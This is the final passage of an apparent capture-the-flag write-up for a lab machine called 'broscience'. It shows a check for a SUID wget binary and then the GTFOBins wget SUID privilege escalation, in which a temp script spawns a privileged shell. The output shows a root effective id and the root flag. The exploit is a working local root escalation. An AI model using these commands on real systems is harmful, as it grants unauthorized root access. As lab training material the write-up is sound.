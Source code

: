 After a while you could verify the exploit worked by running:

```
bill@broscience:~/Certs$ find / -perm -4000 2>/dev/null | grep 'wget'
/usr/bin/wget
```

Now you can do the GTFObins wget suid privesc

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
./wget --use-askpass=$TF 0

```

```
# whoami && id && cat /root/root.txt
root
uid=1000(bill) gid=1000(bill) euid=0(root) groups=1000(bill)
7fa00c6547bcdaeec95d88d820cfe451
```

And thats root, thanks for tuning in, Cheers.
